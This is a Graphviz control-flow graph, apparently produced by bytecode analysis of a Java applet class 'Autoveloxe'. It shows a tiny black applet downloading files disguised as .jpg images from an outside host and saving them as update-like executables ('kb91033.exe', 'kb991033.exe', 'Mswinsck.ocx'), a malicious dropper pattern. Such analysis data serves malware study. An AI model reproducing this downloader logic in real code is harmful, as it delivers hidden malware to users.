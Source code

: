 digraph "" {
    "r0 := @this: Autoveloxe"
    "load.r r0"
    "r0 := @this: Autoveloxe"->"load.r r0";
    "staticget <java.awt.Color: java.awt.Color BLACK>"
    "load.r r0"->"staticget <java.awt.Color: java.awt.Color BLACK>";
    "virtualinvoke <Autoveloxe: void setBackground(java.awt.Color)>"
    "staticget <java.awt.Color: java.awt.Color BLACK>"->"virtualinvoke <Autoveloxe: void setBackground(java.awt.Color)>";
    "virtualinvoke <Autoveloxe: void setBackground(java.awt.Color)>"->"load.r r0";
    "push 50"
    "load.r r0"->"push 50";
    "push 50"->"push 50";
    "virtualinvoke <Autoveloxe: void setSize(int,int)>"
    "push 50"->"virtualinvoke <Autoveloxe: void setSize(int,int)>";
    "virtualinvoke <Autoveloxe: void setSize(int,int)>"->"load.r r0";
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm5.jpg\""
    "load.r r0"->"push \"http://www.corvinasnest.com/lists/admin/web/ccm5.jpg\"";
    "push \"Mswinsck.ocx\""
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm5.jpg\""->"push \"Mswinsck.ocx\"";
    "push \"\""
    "push \"Mswinsck.ocx\""->"push \"\"";
    "virtualinvoke <Autoveloxe: void downloadS(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <Autoveloxe: void downloadS(java.lang.String,java.lang.String,java.lang.String)>";
    "virtualinvoke <Autoveloxe: void downloadS(java.lang.String,java.lang.String,java.lang.String)>"->"load.r r0";
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm4.jpg\""
    "load.r r0"->"push \"http://www.corvinasnest.com/lists/admin/web/ccm4.jpg\"";
    "push \"kb91033.exe\""
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm4.jpg\""->"push \"kb91033.exe\"";
    "push \"kb91033.exe\""->"push \"\"";
    "virtualinvoke <Autoveloxe: void download(java.lang.String,java.lang.String,java.lang.String)>"
    "push \"\""->"virtualinvoke <Autoveloxe: void download(java.lang.String,java.lang.String,java.lang.String)>";
    "virtualinvoke <Autoveloxe: void download(java.lang.String,java.lang.String,java.lang.String)>"->"load.r r0";
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm3.jpg\""
    "load.r r0"->"push \"http://www.corvinasnest.com/lists/admin/web/ccm3.jpg\"";
    "push \"kb991033.exe\""
    "push \"http://www.corvinasnest.com/lists/admin/web/ccm3.jpg\""->"push \"kb991033.exe\"";
    "push \"kb991033.exe\""->"push \"\"";
    "push \"\""->"virtualinvoke <Autoveloxe: void download(java.lang.String,java.lang.String,java.lang.String)>";
    "return"
    "virtualinvoke <Autoveloxe: void download(java.lang.String,java.lang.String,java.lang.String)>"->"return";
}
